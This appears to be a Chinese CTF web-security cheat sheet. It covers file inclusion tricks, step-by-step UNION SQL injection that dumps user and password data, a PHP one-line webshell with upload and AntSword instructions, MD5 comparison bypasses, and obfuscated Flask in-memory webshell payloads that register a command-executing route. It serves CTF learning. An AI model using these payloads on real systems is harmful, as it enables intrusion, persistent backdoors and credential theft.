

## 文件包含

---

### .htaccess的利用

文件名 `xxxx.htaccess`
将所有jpg文件当做php执行

`GIF89A <FileMatch"1.jpg"> SetHandler application/x-httpd-php </FilesMatch>`

---

#### 环境变量

如果得到了命令权限
但根目录找不到flag
就试试环境变量
`cat /proc/self/environ`
有可能flag就藏在这里面

---

#### php相关

查看php源代码base64
`php://filter/convert.base64-encode/resource=index.php`

日志文件位置
`/var/log/apache2/access.log`

---

## SQL注入

---

#### URL编码

`空格` url编码 `%20`

`#` url编码 `%23`

有时候需要url编码绕过

---

#### MySQL常用函数

`version()` 查询数据库的版本

`user()` 查询数据库的使用者

`database()` 数据库

`system_user()`系统用户名

`session_user()`连接数据库的用户名

`current_user()` 当前用户名

`load_file()` 读取本地文件

`@@datadir` 读取数据库路径

`@@basedir` mysql安装路径

`@@version_compile_os` 查看操作系统

#### SQL注入最基本方法-大致流程

---

##### step.1 爆列数

假设单引号存在注入点

`'` 报错的话，尝试 `1' order by 1`

1,2,3…依次增加直到报错

报错前的那一个数据就是列数

例如 3

##### step.2 爆库名

确定列数为3之后用联合查询

`1' union select 1,2,3#`

假设回显 `2,3` 可以尝试 `1' union select 1,database(),3#`

期望回显 `xxxxx,3`

确定库名为 `xxxxx`

##### step.3 爆表名

第2位可以改为2也可以保持不变 `database()`

此时需要使用 `group_concat(table_name) from information_schema.tables where table_schema=database()#`

`group_concat` 这是一个聚合函数，它的作用是将**一个组（group）内的多条记录中的某个字符串列的值，连接成一个单一的字符串**

意思是将table_name的所有记录连接在一起查询

`FROM information_schema.tables` 是SQL查询中的一个部分，用于从数据库的 **“信息模式”中的“表”视图** 中获取数据。

简单来说，**它是在查询数据库的“目录”或“元数据”，目的是获取关于这个数据库中所有表的信息，而不是表里存储的业务数据**

`WHERE table_schema = database()` 这个条件的整体意思是：

**“只选择那些所属数据库名称与当前连接的数据库名称相同的记录”**

换句话说，就是：**“只查看当前这个数据库里的东西，忽略服务器上所有其他数据库”**

`1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#`

从这个命令之后爆出表名例如 `geekuser,l0ve1ysq1`

回显位不是在末尾的情况：

`1'or 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#`

**FROM xxxxx需要加在 1,2,3,4,…之后**

##### setp.4 爆字段

假如要查表 `l0ve1ysq1` 的字段

就用 `1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='l0ve1ysq1'#`

实际上只是把 ↑ ↑ ↑

这些地方在step3的基础上修改了一下

最后会得到例如 `id,username,password` 这几个字段

##### step.5 爆数据

得到字段过后就`from l0ve1ysq1` 从这个表当中联合查询

`1'union select 1,2,group_concat(id,username,password) from l0ve1ysq1`

最后会得到 id,username,password的所有内容，flag很有可能就在这个地方

##### 查数据库版本信息

在已知回显位前提下使用

`1' union select 1,database(),version()` 可以得到数据库名称以及版本

例如得到 `10.3.18-MariaDB`

判断数据库类型：

- mysql数据库表：`information_schema.tables`
- access数据库表：`msysobjects`
- sql server 数据库表：`msysobjects`

使用语句：`and exists(select * from information_schema.tables)--`

---

## 文件上传

---

一句话木马 `<?php @eval($_GET['a']);?>` 如果没有被杀就可以在上传成功的目录使用 `?c=system('要执行的命令');` 来执行操作

**例如**：

- 上传文件类型没有过滤 `.php` 上传了一个名为 `test.php` 的文件
- 文件内容 `<?php @eval($_GET['a']);?>` 或 `<?php @eval($_POST['a']);?>`
- 上传到 `/upload/test.php` 且文件存活
- 访问 `example.com/upload/test.php?a=system('被执行的命令');` 或者另外一种方式 `shell_exec` 用 `shell_exec` 需要将命令替换为 `echo shell_exec('命令');`

**Tips**：

`蚁剑(AntSword)` 在 url 一栏填入 `example.com/upload/test.php?` 密码一栏填入 `a` 连接成功过后即可使用 `文件管理` 和 `虚拟终端`

## 系统命令

---

`$IFS$1` `${IFS}` 都可以当做空格绕过

---

## 关于md5绕过

### 完全相等的两组字符串

```
TEXTCOLLBYfGiJUETHQ4hAcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak
TEXTCOLLBYfGiJUETHQ4hEcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak
```

MD5加密有4种绕过方式

1. 0e绕过
2. 数组绕过
3. MD5碰撞
4. MD5-SQL注入

---

#### 0e绕过

0e开头的字符串在参与比较时,会被当做科学计数法,结果转换为0

---

```
md5('QNKCDZO') == md5(240610708)
```

MD5加密后会变成这个样子

```
0e830400451993494058024219903391 == 0e462097431906509019562988736854
```

由于0e开头的字符串会转换为0,所以真正比较的过程会变成下面这样

```
0 == 0
```

###### 例题

```
<?php
        $flag="";
        $v1=$_GET['v1'];
        $v2=$_GET['v2'];
        if(isset($v1) && isset($v2)){
            if(!ctype_alpha($v1)){
                die("v1 error");
            }
            if(!is_numeric($v2)){
                die("v2 error");
            }
            if(md5($v1)==md5($v2)){
                echo $flag;
            }
        }else{

            echo "where is flag?";
        }
    ?>
```

——摘自`ctfshow web5`

题目给了需要通过 `GET请求` 传入参数 `v1` 和 `v2`

- `ctype_alpha()` 函数用于检测字符串中是否仅包含字母,是则返回 `true`,否则返回 `false`
- `is_numeric()` 函数用于检测变量是否为数字或数字字符串,是则返回 `true`,否则返回 `false`

需要比较 `v1` 和 `v2` 的 `md5值` 大小是否相等，如果相等就返回 `flag`

**Payload**

```
?v1=QNKCDZO&v2=240610708
```

满足 `v1` 为仅包含字母，`v2` 为数字或数字字符串

---

##### 特殊值

以下值在 `md5` 加密后以 `0E` 开头：

```
QNKCDZO
240610708
314282422
571579406
903251147
s878926199a
s155964671a
s214587387a
s214587387a
```

`双重 MD5` 加密后 `0E` 开头：

```
7r4lGXCH2Ksu2JNT3BYM
CbDLytmyGm2xQyaLNhWn
770hQgrBOjrcqftrlaZk
```

---

#### 数组绕过

md5不能加密数组,传入数组会报错,但会继续执行并且返回结果为 `null`

比如将两个数组的md5值进行比较

```
md5(a[]=1) === md5(b[]=1)
```

由于md5函数无法处理数组,会返回 `null`,所以md5加密后的结果是下面这样

```
null === null
```

结果返回 `true`,也就是说数组的md5值进行比较时,结果相等

需要注意的是0e绕过只能绕过弱类型比较(`==`),而数组绕过不只可以绕过弱类型比较,还可以绕过强类型比较(`===`)

弱类型比较(`==`),只判断内容是否相等,如果是字符串类型,则转换成数值型后进行判断

强类型比较(`===)`,判断内容的基础上,还会判断类型是否相同

---

##### MD5 函数弱比较绕过

我们常见这种过滤

```
if($a != $b && md5($a) == md5($b))
```

这时就要用到弱比较绕过

##### PHP 比较类型

`===` 在进行比较的时候，会先判断两边的数据类型是否相等，再进行比较。

`==`在进行比较的时候，会先将字符串类型转换成相同，再比较。

---

如果比较一个数字和字符串或者比较涉及到数字内容的字符串，则字符串会被转换数值并且比较按照数值来进行。

当一个字符串被当做一个数值来取值，其结果和类型如下：

- 如果该字符串没有包含 `.`,`e`,`E` 并且其数值在整型的范围之内，该字符串被当做 `int` 来取值
- 其他所有情况下都被作为 `float` 来取值，该字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则其值为 0。

#### MD5碰撞

MD5碰撞也叫哈希碰撞,是指两个不同内容的输入,经过散列算法后,得到相同的输出,也就是两个不同的值的散列值相同

#### MD5-SQL注入

```
ffifdyop` 的MD5加密结果是 `276f722736c95d99e921722cf9ed621c
```

经过MySQL编码后会变成`'or'6xxx`,使SQL恒成立,相当于万能密码,可以绕过md5()函数的加密

---

## 对于内存马

### Flask内存马



### webshell的发展

webshell的变迁过程大致如下所述：

web服务器管理页面——> 大马——>小马拉大马——>一句话木马——>加密一句话木马——>加密内存马

---

### Flask内存马原理

简单来说，Flask 内存马相当于动态修改服务端的运行逻辑，添加了一个源码中不存在的后门路由（比如说`/backdoor`），然后就可以用`/backdoor?cmd=whoami`直接访问这个路由执行命令。

这样就可以让本来正常的 Flask 服务端执行我们的命令

Flask 是 Python 写的，核心逻辑（比如路由表）都是可以运行时动态修改的。我们可以通过 SSTI 或者其他的 RCE 漏洞，使用 eval 执行一段代码，把一个恶意路由注册到 Flask 服务端上

**应用层面：路由系统的动态性**

- Flask 应用的核心是 `app` 对象（一个 `Flask` 类的实例）。
- 这个对象内部维护了一个 `url_map` 和一个 `view_functions` 字典。这就是整个应用的路由表，它直接决定了哪个 URL 由哪个函数来处理。
- 关键：这些字典在应用运行的整个生命周期内，都存在于内存中，并且可以被动态修改。添加一个路由，本质上就是向这些字典里插入新的键值对。

**语言层面：Python 的反射与导入系统**

- 即使我们拿到了 RCE，但可能无法直接拿到当前的 `app` 对象。如何找到它？
- 从已导入的模块中查找：我们可以遍历 `sys.modules` 字典，找出所有已加载的模块，然后检查每个模块的属性，看哪个是 `Flask` 应用实例。
- 从请求上下文中查找：在处理请求时，Flask 会创建一个临时的请求上下文 `_request_ctx_stack` 或 `request`。我们可以通过 `request.environ` 或直接访问上下文栈来找到当前的 `app` 对象。

### Payload

旧版本的Payload

```
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

- `app.add_url_rule(...)`: 这是Flask框架中的一个方法，用于将URL与视图函数绑定。第一个参数是URL路径，第二个参数是端点名称（endpoint name），第三个参数是要调用的视图函数。
- `'/shell'`: 这是HTTP请求的路径，意味着当你访问服务器上的`/shell`路径时，会触发这个路由对应的处理逻辑。
- `'shell'`: 这是端点名称，在Flask内部用来唯一标识这个路由。
- `lambda:`: 使用了Python的匿名函数（lambda表达式）来定义视图函数。这里没有显式地定义函数名，而是直接在`add_url_rule`中定义了要执行的逻辑。
- `__import__('os')`: 动态导入Python的内置模块`os`。通常情况下，我们会使用`import os`，但这里使用了`__import__`函数，可能是为了绕过某些限制或检查。
- `.popen(...).read()`: `os.popen()`方法执行传入的命令字符串，并返回一个文件对象，我们可以从这个文件对象中读取命令的输出。`.read()`方法读取并返回命令的完整输出。
- _request_ctx_stack.top.request.args.get('cmd', 'whoami') : 这里获取了当前请求上下文中的查询参数cmd，如果cmd参数不存在，则默认执行whoami命令。_request_ctx_stack是一个内部的栈结构，保存着请求上下文信息

---

`Payload变形-1`

```
request.application.__self__._get_data_for_json.__getattribute__('__globa'+'ls__').__getitem__('__bui'+'ltins__').__getitem__('ex'+'ec')("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell', 'calc')).read())",{'_request_ct'+'x_stack':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('_request_'+'ctx_stack'),'app':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('curre'+'nt_app')})
```

`Payload变形-2`

```
get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("__builtins__")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0065\u0076\u0061\u006c")("app.add_ur"+"l_rule('/h3rmesk1t', 'h3rmesk1t', la"+"mbda :__imp"+"ort__('o"+"s').po"+"pen(_request_c"+"tx_stack.to"+"p.re"+"quest.args.get('shell')).re"+"ad())",{'\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b"),'app':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0063\u0075\u0072\u0072\u0065\u006e\u0074\u005f\u0061\u0070\u0070")})
```

### 绕过技巧

- `url_for`可替换为`get_flashed_messages`或者`request.__init__`或者`request.application`
- 代码执行函数替换, 如`exec`等替换`eval`
- 字符串可采用拼接方式, 如`['__builtins__']['eval']`变为`['__bui'+'ltins__']['ev'+'al']`
- `__globals__`可用`__getattribute__('__globa'+'ls__')`替换
- `[]`可用`.__getitem__()`或`.pop()`替换
- 过滤`{{`或者`}}`, 可以使用``绕过,``中间可以执行`if`语句, 利用这一点可以进行类似盲注的操作或者外带代码执行结果
- 过滤`_`可以用编码绕过, 如`__class__`替换成`\x5f\x5fclass\x5f\x5f`, 还可以用`dir(0)[0][0]`或者`request['args']`或者`request['values']`绕过
- 过滤了`.`可以采用`attr()`或`[]`绕过
- 其它的手法参考`SSTI绕过过滤`的方法即可…

## 杂项

---

`index.php`为首页，部分情况 `index.phps` 可以查看源代码

---

### 更改请求格式

更改 `GET` 为 `POST` ：

抓包改为 `POST` 然后添加:

`Content-Type: application/x-www-form-urlencoded`
`Content-Length: 1` (取决于POST报文内容长度，如果使用 `yakit` 可以忽略，程序会auto设置一个值)
